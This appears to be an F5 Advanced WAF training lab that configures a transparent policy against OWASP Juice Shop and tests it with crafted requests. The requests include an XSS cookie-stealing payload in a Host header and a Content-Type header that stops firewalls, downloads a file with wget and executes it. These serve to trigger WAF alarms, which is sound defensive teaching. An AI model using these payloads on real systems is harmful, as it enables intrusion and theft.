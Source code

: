 Exercise 4.1: Transparent Policy 
----------------------------------------

Objective
~~~~~~~~~~
We created a transparent policy way back in Lab 1 to configure Geolocation enforcement & Layer 7 XFF inspection for IPI. We then tested out the Threat Campaign signatures in Lab 3 and now we will explore and test some of the other components that should be in scope for enforcement early on in your WAF deployment. 


- Review Learning & Blocking & Policy Building Process settings
- Implement HTTP Protocol Compliancy checks and test
- Test with a HTTP Protocol violation plus XSS attack
- Enable Server Technologies & Attack Signatures
- Review Reporting

- Estimated time for completion **30** **minutes**.

Learning & Blocking 
~~~~~~~~~~~~~~~~~~~~~
Recall from Lab 1, that we used the Rapid Deployment Policy template to create our policy and we deployed it in manual learning mode. This means as violations and/or false positives occur, the system will make suggestions to modify the policy. The admin will manually evaluate the suggestions and Approve, Ignore or Delete them.  

#. Navigate to **Security > Application Security >  Policy Building > Traffic Learning** and notice that there are no "learning suggestions" displayed yet. So far, all of our site traffic has been generated by a malicious script so now it's time to generate some real user traffic. 
#. In the Chrome browser open a new tab, click on the **OWASP Juiceshop** bookmark in the Bookmarks Toolbar and accept the certificate warning. Browse around the site and perform several actions as a real user would. 
#. In the top right of the site, click the **Account Menu** and select **Login** and then click **Not yet a customer?**. 

.. image:: images/customer.png
  :width: 600 px

4. Create an account using "f5student@f5agility.com" for email and use the same password you've been using for the labs and pick whatever security question you like. 
#. Click **Register** and then login to the Juice Shop.
#. Click back on the Advanced WAF GUI tab in your browser and refresh the traffic learning screen. If you navigated away or closed the tab, open a new one, login to Advanced WAF and go to: **Security > Application Security >  Policy Building > Traffic Learning**.
#. You will see many Suggestions and a **learning score** that the system assigns based on how many times it has seen an occurence and from what source. You can **Accept**, **Delete**, **Ignore** or **Export** the suggestion. 

.. NOTE:: This is where it usually starts to get a little dicey for a first-time WAF admin. Always look very carefully at the suggested action before deciding on which action to take. It is also helpful to define a whitelist so that the policy can learn quicker and from known trusted sources. You generally do not want the system learning from random and/or hostile Internet traffic and making suggestions to relax the policy.   

8. Notice that most of the learning suggestions involve enabling various HTTP protocol Compliance Checks.   
#. Find and select the suggestion for **Enable HTTP protocol compliance check - HTTP Check: No Host header in HTTP/1.1 request**. 
#. Review the **Suggested Action** and click **Accept** and **Apply Policy**. 

.. image:: images/proto.png
  :width: 600 px

11. What just happened and how do you see what changed by who and when? Audit Log of course!
#. Go to **Security > Application Security >  Audit > Log** and review the most recent actions. You can see who, what and when every component within a policy was modified. (This step is not necessary but meant to draw your attention to the audit log)

.. image:: images/audit.png
  :width: 600 px


13. Click on the Element Name (blue hyperlink) **No Host header in HTTP/1.1 request** This takes you to the Learning and Blocking Settings screen where the check was enabled. 
#. Notice that by default in the Rapid Deployment Policy, learning is enabled for most of the common HTTP Protocol compliancy checks. Also notice that the **Enable** checkbox next to **No Host header in HTTP/1.1 request** is now checked.  

.. image:: images/http_req.png
  :width: 600 px


15. Uncheck the **Learn box** for this violation then **Save** and **Apply** policy. 
#. Open a new Terminal and send the following request. This request is being sent without a host header and should now raise a violation in our Event Log rather than a learning suggestion. 

``curl -k -H 'Host:' https://juiceshop.f5agility.com/``


17. Review the Alarmed request in **Security > Event Logs > Application  > Requests**.

.. image:: images/httpviol.png
  :width: 600 px

18. To review, you just took a learning suggestion and accepted it to enable a protocol compliancy check and then you disabled future learning suggestions for this event. Violations are now alarmed in the Event Logs. 
#. Go back to **Security > Application Security > Policy Building > Traffic Learning** You would now typically go through and enable all of the checks that the policy is recommending regarding http protocol compliance and evasion technique detection.

.. NOTE:: Remember that your policy is safely in transparent mode so accepting suggestions and enabling checks will only raise alarms and no blocking actions will occur. This is why it is very important to start off transparently until you fully understand the basics of managing a WAF policy. 


False Positive Remediation 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. In Juice Shop click on any item and **Write a review** and click **Submit**
#. In Advanced WAF navigate to **Security > Event Logs > Application  > Requests** and look for the Sev3 alert for the request going to **rest/product/reviews**.

.. image:: images/sev3.png
  :width: 600 px

3.  Click **Accept** to allow a new method of **Put** in our policy and navigate to **Security > Application Security > Headers > Methods** and you will see our newly added "Allowed Method" of **Put**.

.. image:: images/headmeth.png
  :width: 600 px

4. In a new browser tab, make sure you are logged in to JuiceShop and leave another review for **Apple Juice**. 
#. Review the request in **Security > Event Logs > Application  > Requests**. 

.. image:: images/put.png
  :width: 600 px

.. NOTE:: Put is not a default allowed method in a Rapid Deployment Policy. Working through learning suggestions and false-positives is an essential part of policy development and should occur as early as possible during software development and testing. It IS NOT best-practice to wait until the site is in production before bolting on a WAF policy as an after-thought. 

Policy Building Process
~~~~~~~~~~~~~~~~~~~~~~~~~~~

One thing you can do to greatly increase the integrity of the learning suggestions is, define trusted IP's. You can also tell the system to Only learn from trusted IP's which is a very wise thing to do if you are developing policy on an app that is exposed to untrusted or Internet traffic. 

#. Go to **Security > Application Security >  Policy Building > Learning and Blocking Settings** and expand the **Policy Building Process** section at the bottom. Here you can see settings that this particular policy is using for learning. Notice that **Trusted IP Addresses List** is empty. 
#. Click the little window/arrow icon next to **Trusted IP Addresses List** is empty.
#. This takes you to: **Security > Application Security > Security Policies > Policies List > juiceshow_waf policy > IP Address Exceptions**. Click **Create**.

.. image:: images/ip_exception.png
  :width: 600 px
 
4. For IP Address: **10.0.0.0** and for Netmask: **255.0.0.0**. Check the box for **Policy Builder trusted IP** and click **Create** and **Apply Policy**.

.. image:: images/ip.png
  :width: 600 px

5. Navigate back to **Security > Application Security >  Policy Building > Learning and Blocking Settings** and expand the **Policy Building Process** section. Notice that our newly defined network is now a **Trusted IP**. This will greatly enhance the speed and quality of learning suggestions. 
#. Change the view from Basic to Advanced and review all the fine-grained configurations for the **Policy Building Process**.

.. image:: images/pbp.png
  :width: 600 px

**You now know how to define a trusted ip and configure the policy building process settings**

Burp'ing the App
~~~~~~~~~~~~~~~~
In this section we are going to use the free/community version of an excellent DAST tool; Burp. Unfortunately, the free version does not actually allow DAST but it is still an excellent tool for packet crafting and that's exactly how we are going to use it.

Accept the Remaining Learning Suggestions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. Go to **Security > Application Security >  Policy Building > Traffic Learning** and select all of the remaining suggestions and click **Accept > Accept suggestions** and then **Apply Policy**. 

.. image:: images/accept.png
  :width: 600 px

HTTP Compliancy Check - Bad Host Header Value
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The **Bad Host Header Value** check is an HTTP Parser Attack and definitely something that should be implemented as part of **Good WAF Security**. It was included in the suggestions you just accepted. 

**Risk:**
If we allow bad host header values they can be used to Fuzz web servers and gather system information. Successful exploitation of this attack could allow for the execution of XSS arbitrary code.

#. Launch **Burp** from the Desktop. **Do Not click multiple times. It takes a few moments to load**. 

.. image:: images/burp.png

**DO NOT update**. 

#. Choose **Temporary Project** and click **Next** and then click **Start Burp**. 
#. Click the **Repeater** tab and paste in the following http request (**Replace password with the password you've been using all along.**) and click **Send**.
#. A popup window will appear to configure the target details. For host use: **10.1.10.145**. For port use: **443**. Check the **Use HTTPS** box. 
#. Click **Send**

|

**XSS in HOST Header**

::

  POST https://10.1.10.145/rest/user/login HTTP/1.1
  User-Agent: BabyYoda
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 38
  Host: <script>alert(document.cookie);</script>

  username=f5student&password=[password]


.. image:: images/burpreq.png
  :width: 600 px

5. Back in Advanced WAF, browse to **Security > Event Logs > Application > Requests** and review the alert for this Sev5 attack. Note the alert severity is much higher (5) for this attack type due to several violations occuring including HTTP protocol Violations and several XSS signatures.
#. Review all the details and then click the **3** under the **Attack Signature Detected** violation to see all of the staged XSS Attack Signatures that were triggered. 

.. image:: images/xss-out.png
  :width: 600 px



Server Technologies & Attack Signatures
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In this final exercise we will examine server technologies which allow you to automatically discover server-side frameworks, web servers and operating systems. This feature helps when the backend technologies are not well known or communicated from the Dev team.

#. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures**
#. Review the Attack Signatures that were applied during policy creation from back in Lab 1. **Generic Detection Signatures (High/Medium Accuracy)**. Notice that they are set to **Learn/Alarm/Block and Staging is enabled**. 
#. Locate Server Technologies and expand the option. Click **Enable Server Technology Detection**, click **Save** and then click the **New Window Icon** next to Server Technologies. 

.. image:: images/st.png
  :width: 600 px

4. This takes you to: **Security > Application Security > Security Policies > juiceshop_waf > Genearl Settings**. Scroll down to **Advanced Settings > Server Technologies** and click in the box. Search for Linux since we know the server is running Linux. 

.. image:: images/svr_tech.png
  :width: 600 px


The system will display a box describing which new signature sets will be applied. Click **Confirm**. 

.. image:: images/ast.png
  :width: 600 px

**Make sure to Save and Apply Policy.**

5. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures** and notice the new Unix/Linux Server Technology signature sets that were added to the policy. 

.. image:: images/unix.png
  :width: 600 px

6. Click **Change** and review all of the additional Signature Sets that you can add manually add to a policy. Click **Cancel**

Framework Attacks
~~~~~~~~~~~~~~~~~~~

Back in BURP navigate to the repeater tab and adjust the payload to the following and hit **Send**. **Replace password with the password you’ve been using all along**

|

**Framework Attack**

::

  POST https://10.1.10.145/rest/user/login HTTP/1.1
  User-Agent: ImperialProbeDroid
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: /etc/init.d/iptables stop; service iptables stop; SuSEfirewall2 stop; reSuSEfirewall2 stop; cd /tmp; wget -c https://10.1.10.145:443/7; chmod 777 7; ./7;
  Content-Length: 38
  Host: DarthMaul

  username=f5student&password=[password]


#. Browse to **Security > Event Logs > Application > Requests** and look for the most recent Sev5 Event. Select the event, review the violations and click the **2** under Occurrences for the Attack signature detected violation.  
#. Click the little blue **i** and review the Attack Signature Details. We can see that this was a Systems based Unix/Linux Signature in staging mode. 

.. image:: images/systems.png
  :width: 600 px

We are now alerting on attacks aimed at Server Technologies. 

Review Reporting
~~~~~~~~~~~~~~~~~~
#. Navigate to **Security > Reporting > Application > Charts** and change the View By: to **Ip Intelligence** and review the chart. 
#. Change the chart type from Absolute to **Stacked**
#. Change the View By: to **Client IP Addresses**

.. image:: images/client_ip.png
  :width: 600 px

4. Change the Advanced Filter to: **Top Alarmed URLs**. 
#. Change the Advanced Filter to: **Top attacks in the last day** and View By: to **Client Countries**. 
#. Explore additional charts that you can generate and export. 

.. image:: images/charts.png
  :width: 600 px

7. Navigate to **Security > Overview > Application > Traffic**

.. image:: images/overview.png
  :width: 600 px

8. Go to **Security > Overview > OWASP Compliance** and review the report. As you can see there is still much to do from a best-practices App-Sec perspective. For more information check out our OWASP 111 Lab which covers these categories in detail. 

.. image:: images/owasp.png
  :width: 600 px


**This completes Lab 4**

**Congratulations! It was a long road but you made it though and now have the knowledge to go forth and start testing. Given the Advanced WAF is a proxy, you could build a Virtual Edition F5 locally on your machine and implement a number of test scenarios with no impacts to a production application. Contact your friendly neighborhood F5 Solutions Engineer for more information!! Hope to see you in the 241 Elevated WAF Protection class! Cheers!!!**



